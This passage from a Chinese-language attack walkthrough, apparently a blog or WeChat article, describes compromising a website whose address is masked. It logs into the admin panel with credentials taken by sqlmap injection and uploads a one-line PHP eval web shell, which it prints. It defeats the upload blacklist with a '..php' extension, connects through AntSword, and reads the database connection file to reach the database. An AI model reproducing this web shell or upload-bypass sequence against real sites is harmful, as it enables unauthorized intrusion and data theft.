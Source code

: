 **06**

登录后台，木马上传

登录页面 https://yy.yy.yy.yy/yy/login.php

用 sqlmap 注入获取的用户名, 密码输入

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONS790Z6WjIav104urbNWjJcY6F74wmhvZSvt78WhkXRibJJDCnJzWSQ4FaAb26oTOfKpQlCib5WXwaQ/640?wx_fmt=png)

进入后台管理页面

https:// yy.yy.yy.yy/yy /user.php

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONS790Z6WjIav104urbNWjJcpqkoia9ER4TVloFpHKOfcdr9DXThuW8xXrzfsvC6o9foBVLD1zmP77g/640?wx_fmt=png)

系统管理 - 文件管理 - 新增 找到上传点

 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONS790Z6WjIav104urbNWjJcQnVNwSNble8XAMhE83g5W6KjeGYzrn0rKbQlf82a6Y4bxiaITDqOzEg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONS790Z6WjIav104urbNWjJcJdEnBbDog6R9fCf6e14yAhxXGsPGibdyLEBZ3aVEoicS7U3ibI46SarKA/640?wx_fmt=png)

**上传一句话小马**

**上传一句话小马**（或者大马）

先上传小马 zmg.php

```
<?php @eval($_POST['xyz']); ?>
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONS790Z6WjIav104urbNWjJcfccrh0HxR7DT71oZtXdpmZJBicGHNg6gsy5fCNmDygUqgl0YibQiaKnAw/640?wx_fmt=png)

上传后返回 1348_1.php_ 证明上传后扩展名被过滤处理了，

上传无提示说明是黑名单过滤，尝试各种过滤方法

**尝试后缀名为 “..php” 进行上传，成功（关键点上传绕过）**

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONS790Z6WjIav104urbNWjJcLuqU2o6W1szjlY93lWszTe1ad4Dy22hyrUfXpbnBWtqk2uhiakWCgWA/640?wx_fmt=png)

访问，证明上传成功

中国蚁剑连接小马，连接成功

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONS790Z6WjIav104urbNWjJcP4WjoCr3rp6icwJW6AOtdRZUmPWRMfibVLHUt2jTTH4j2P6RsDyHnhLw/640?wx_fmt=png)

寻找找到网站数据库配置文件

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONS790Z6WjIav104urbNWjJcJT25pjLibOadtnB1q7RvJTGbfxWokj1ibTScic6RgFV2Yx8rssIjehBMg/640?wx_fmt=png)

_conn.php 推断或为数据库连接文件，打开果然是

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONS790Z6WjIav104urbNWjJc4T8d3I4pXrzm1gibVz3oAZbYaCddFgXUIbiaRfxiaiaJwVu6icmVialvqhkQ/640?wx_fmt=png)

中国蚁剑连接后台数据库（也可以上传带数据库管理功能的大马进行连接数据库）

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONS790Z6WjIav104urbNWjJcpJCCVvIrhtT3ibFf0FjZH16FgNB0xEbZzMLicQ66jqjjr7EsxR4nlTqg/640?wx_fmt=png)
